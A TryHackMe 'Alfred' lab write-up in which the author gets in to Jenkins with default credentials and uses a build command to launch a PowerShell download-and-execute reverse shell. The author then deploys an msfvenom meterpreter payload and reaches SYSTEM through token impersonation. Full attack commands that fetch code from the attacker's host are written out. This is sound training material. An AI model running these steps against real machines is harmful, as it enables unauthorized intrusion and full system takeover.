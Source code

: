 
# TryHackMe - Alfred

## Recon Stage

Starting with an nmap of the target, we get:

```
┌──(kali㉿kali)-[~/TryHackMe/Alfred]
└─$ nmap -sV -Pn 10.10.6.87                   
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-10 11:16 EST
Nmap scan report for 10.10.6.87
Host is up (0.021s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft IIS httpd 7.5
3389/tcp open  ssl/ms-wbt-server?
8080/tcp open  http               Jetty 9.4.z-SNAPSHOT
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.71 seconds
```

The webserver on port 80 seems static and uninteresting for the moment, so I go ahead and explore the webserver on port 8080 which seems to be running a version of Jenkins:

![](2021-03-10-11-18-34.png)

Just trying the combination 'admin:admin' gave me access:

![](2021-03-10-11-19-50.png)

After looking into the 'project' project, I found that in their settings there is a build trigger that executes a batch command:

![](2021-03-10-11-23-51.png)

This is most likely going to be our attack vector

## Exploitation

As the target is running Windows, I will be using a reverse powershell found [here](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

I perform a wget for the powershell script and startup a python http server so the target can download the script from me:

![](2021-03-10-11-27-20.png)


I then enter the following bash code to execute a download request and invokation of the script:

``
powershell iex (New-Object Net.WebClient).DownloadString('http://10.9.3.207:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.9.3.207 -Port 4444
``

![](2021-03-10-11-29-19.png)

and start a netcat process listening on port 4444:

![](2021-03-10-11-30-26.png)


Back on the website, I save the new configuration and click 'Build Now'.

I am then given a reverse powershell:

![](2021-03-10-11-32-09.png)

I then navigate over to the C:/Users/bruce, on their Desktop holds the user flag.

## Switching Shells

Following with TryHackMe, I attempt to switch shells over to meterpreter to make privilege escalation easier. To do this, I generated a meterpreter reverse shell payload using msfvenom:

``msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.9.3.207 LPORT=4443 -f exe -o shell.exe``


I then started metasploit and setup my handler:

![](2021-03-10-11-39-58.png)

And then downloaded and executed the shell by executing the following commands on the target machine:

```
PS C:\Program Files (x86)\Jenkins\workspace\project>powershell "(New-Object System.Net.WebClient).DownloadFile('http://10.9.3.207:8000/shell.exe', './shell.exe');"
PS C:\Program Files (x86)\Jenkins\workspace\project> Start-Process "shell.exe"
PS C:\Program Files (x86)\Jenkins\workspace\project> 
```

![](2021-03-10-11-46-26.png)

Great, we have our meterpreter shell now!

## Privilege Escalation

I start by checking privileges for the current user:

![](2021-03-10-11-49-22.png)

As we can see, SeImpersonatePrivilege is enabled for this user.

I return back into meterpreter and load the incognito library.

Checking what tokens are available using ``list_tokens -g`` I find that BUILTIN\Administrators is available. I attempt to impersonate this token:

![](2021-03-10-11-52-27.png)

I then find and migrate to a higher privilege process, such as services.exe:

![](2021-03-10-11-54-14.png)

This is because, whilst I may have a higher privileged token, I may not have such high permissions as Windows will look at my primary token initially and not the impersonated one.

And now we have SYSTEM access to this machine. I can simply navigate over to the restricted path and find the root flag.
